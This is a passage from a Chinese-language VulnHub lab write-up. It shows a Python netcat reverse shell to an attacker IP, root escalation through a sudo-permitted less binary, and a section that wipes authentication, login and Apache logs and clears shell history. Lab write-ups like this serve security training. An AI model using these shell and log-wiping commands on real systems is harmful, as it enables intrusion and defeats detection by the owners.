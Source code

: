 ![](D:\stu\vulnhub\warzone靶场\pic-2\20.jpg)

那么尝试进行`python`的反弹`shell`，在`kali`中先进行监听，不过测试后发现`bash`反弹无效，更换为`nc`反弹，不过这里并未显示`nc`反弹命令，但是直接反弹成功

```shell
import os
os.system("nc -e /bin/sh 192.168.1.16 7777")
```

![](D:\stu\vulnhub\warzone靶场\pic-2\21.jpg)

使用`python3`获取交互式界面，然后查看其目录下的`flag`

![](D:\stu\vulnhub\warzone靶场\pic-2\22.jpg)

## 提权至root

还是测试`sudo -l`，发现无需密码，并且是一个`less`提权

![](D:\stu\vulnhub\warzone靶场\pic-2\23.jpg)

可以借助网站`gtfobins.github.io`查看其他方式

![](D:\stu\vulnhub\warzone靶场\pic-2\24.jpg)

提权成功

![](D:\stu\vulnhub\warzone靶场\pic-2\25.jpg)

# 清理痕迹

清除日志

```shell
sed -i "/192.168.1.16/d" /var/log/auth.log
echo > /var/log/btmp
echo > /var/log/wtmp
echo > /var/log/faillog
echo > /var/log/lastlog
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```

剩下还需要清除开启服务时的一些日志

清理历史命令记录

```shell
history -r
history -c
```

# 总结
